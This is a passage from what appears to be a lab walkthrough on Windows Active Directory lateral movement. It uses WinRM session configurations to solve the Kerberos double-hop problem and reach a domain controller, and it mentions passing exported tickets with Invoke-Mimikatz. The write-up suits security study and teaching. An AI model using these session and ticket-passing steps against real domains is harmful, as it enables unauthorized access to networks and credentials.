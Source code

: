    <span></span>

4. Run `klist` again:
   ```
   Current LogonId is 0:0xc7fbc

   Cached Tickets: (0)
   ```
   - `klist` can now check for cached tickets
   - Passing exported tickets using `Invoke-Mimikatz` would throw the same error from the previous `klist` if a proper session is not configured.
   - Even if an Administrator ticket was passed successfully, passing commands in or accessing the Domain Controller would be denied
     - The entire session should be restarted with the proper configuration.

   <span></span>

5. Type `Restart-Service WinRM` then enter a new PSSession with the registered configuration:
   ```powershell
   Enter-PSSession -ComputerName 192.168.150.128 -Credential BOSSMANBEN\GConcy -ConfigurationName GodConcy
   ```
   - The shell will terminate after restarting the service.
   - Enter the credentials for BOSSMANBEN\GConcy in the password prompt

   <span></span>

6. Run `klist` again:
   ```
   Current LogonId is 0:0xd0ebf

   Cached Tickets: (1)

   #0>     Client: GConcy @ BOSSMANBEN.LOCAL
           Server: krbtgt/BOSSMANBEN.LOCAL @ BOSSMANBEN.LOCAL
           KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
           Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
           Start Time: 7/12/2019 15:42:59 (local)
           End Time:   7/13/2019 1:42:59 (local)
           Renew Time: 7/19/2019 15:42:59 (local)
           Session Key Type: AES-256-CTS-HMAC-SHA1-96
           Cache Flags: 0x1 -> PRIMARY
           Kdc Called: WIN-BO2CT95INDP
   ```
   - The session now actually runs as the user, __BOSSMANBEN\\GConcy__
   - This session now eliminates the __double hop__ problem:
     - Instead of the local machine sending a request to the remote machine before reaching the server, the local machine is now acting as or impersonating the remote machine running as the user __BOSSMANBEN\\GConcy__.
     - Since the local machine (KALI-WINDOWS) now acts like the remote machine (MSEDGEWIN10), it would seem like the requests sent from the local machine are now going directly to the Domain Controller (BOSSMANBEN).
     - The two previous statement would be useful since the goal of this exploit is to reach the Domain Controller (BOSSMANBEN) using the local machine (KALI-WINDOWS) "without jumping" from the remote machine (MSEDGEWIN10)
